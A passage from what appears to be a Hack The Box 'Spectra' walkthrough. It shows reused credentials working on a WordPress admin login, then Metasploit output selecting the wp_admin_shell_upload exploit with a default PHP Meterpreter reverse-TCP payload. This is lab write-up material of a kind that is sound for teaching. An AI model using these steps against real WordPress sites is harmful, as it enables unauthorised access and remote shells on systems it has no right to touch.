 Can't login to mysql with this one
Can't login to wordpress with this one

But I can login to wordpress with `adminstrator` and the same password. I guess this is trying to demonstrate password reuse.

![Admin Access](./assets/2021-05-19-hack-the-box-spectra/logged-in-as-admin.png)

We can use meterpreter or try to grab a shell manually by uploading

```sh
msf6 > search wp_admin

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_admin_shell_upload
```

Select the exploit

```sh
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) >
```

